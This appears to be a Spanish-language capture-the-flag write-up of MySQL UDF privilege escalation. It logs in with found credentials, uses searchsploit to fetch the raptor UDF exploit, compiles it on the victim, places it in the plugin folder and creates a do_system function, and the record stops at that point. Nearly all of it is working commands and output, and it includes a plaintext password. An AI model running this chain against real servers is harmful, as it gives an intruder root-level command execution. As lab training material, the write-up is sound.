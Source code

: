 A la hora de enumerar vemos el puerto 3306 abierto con mysql corriendo por root.

Probando credenciales, vemos que las que encontramos funcionan y tenemos permisos, posible **UDF**:

```bash
mysql -u admin -pPassAdmin123-

MariaDB [(none)]> SHOW GRANTS;
+------------------------------------------------------------------------------------------------------------------------------------------------+
| Grants for admin@localhost                                                                                                                     |
+------------------------------------------------------------------------------------------------------------------------------------------------+
| GRANT SELECT, INSERT, UPDATE, DELETE, EXECUTE ON *.* TO `admin`@`localhost` IDENTIFIED BY PASSWORD '*6B77115C352F8F98A4DD4D3401F18E19D88FC7FC' |
+------------------------------------------------------------------------------------------------------------------------------------------------+
1 row in set (0.000 sec)

```

Buscamos en searchsploit :

```bash
searchsploit udf
MySQL 4.0.17 (Linux) - User-Defined Function (UDF) Dynamic Library (1)                                                                                  | linux/local/1181.c
MySQL 4.x/5.0 (Linux) - User-Defined Function (UDF) Dynamic Library (2)                                                                                 | linux/local/1518.c

```

Descargamos :

```bash
searchsploit -m 1518.c
```

Pasamos a la victima y compilamos:
```bash
 gcc -g -c 1518.c  
 gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so 1518.o -lc
```

Lo metemos una vez compilado en la carpeta de los plugins:
```bash
cp /tmp/raptor_udf2.so /usr/lib/mysql/plugin   
```

Comandos en MYSQL:
```bash
mysql -u admin -pPassAdmin123-

MariaDB [(none)]> USE mysql;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [mysql]> create function do_system returns integer soname 'raptor_udf2.so';
Query OK, 0 rows affected (0.002 sec)

MariaDB [mysql]> select * from mysql.func;
+-----------+-----+----------------+----------+
| name      | ret | dl             | type     |
+-----------+-----+----------------+----------+
| do_system |   2 | raptor_udf2.so | function |
+-----------+-----+----------------+----------+
1 row in set (0.000 sec)

```